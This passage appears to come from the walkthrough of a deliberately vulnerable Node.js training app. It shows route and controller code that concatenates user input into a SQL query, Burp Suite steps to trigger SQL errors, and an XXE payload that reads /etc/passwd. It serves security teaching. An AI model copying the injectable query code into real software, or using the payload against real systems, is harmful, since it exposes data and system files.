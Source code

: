 ## 7. SQL Injection:

Application is concatenating user supplied input to SQL query without any validation.

### Exploit

1. Go to `/sqli` and select station from list and click on **check** while intercepting request using burp suite.
2. Add `'` at the end of the URL path you will see the SQL error from here you can proceed to get database details.

<div class="page-break"></div>

### Vulnerable Code

**Route: /routes/app.js**
```js
router.get('/sqli/:from-:to', authenticateToken, vuln_controller.sqli_check_train_get);
```

**Controller: /controllers/vuln_controller.js**
```js
const sqli_check_train_get = (req, res) => {
    const from = req.params.from;
    const to = req.params.to;
    const q = "SELECT ntrains FROM trains where from_stnt='" + from + "' and to_stnt='" + to + "';";
    con.connect(function (err) {
        if (err) throw err;
        con.query(q, (err, results) => {
            if (err) {
                res.send(err);
            };
            res.send(JSON.stringify(results));
        });
    });
}
```


## 8. XXE

Application is using `libxmljs` to parse XML input but `noent` flag is set to true which enables external entities parsing. your goal is to read `/etc/passwd` file.

### Exploit

1. Go to `/xxe` and add a random comment while intercepting requests using burp suite.
2. Change the comment parameter value with the following payload to read `/etc/passwd` file.
   
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE asdf [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root> <comment>
    <content>%26xxe;</content>
</comment></root>
```
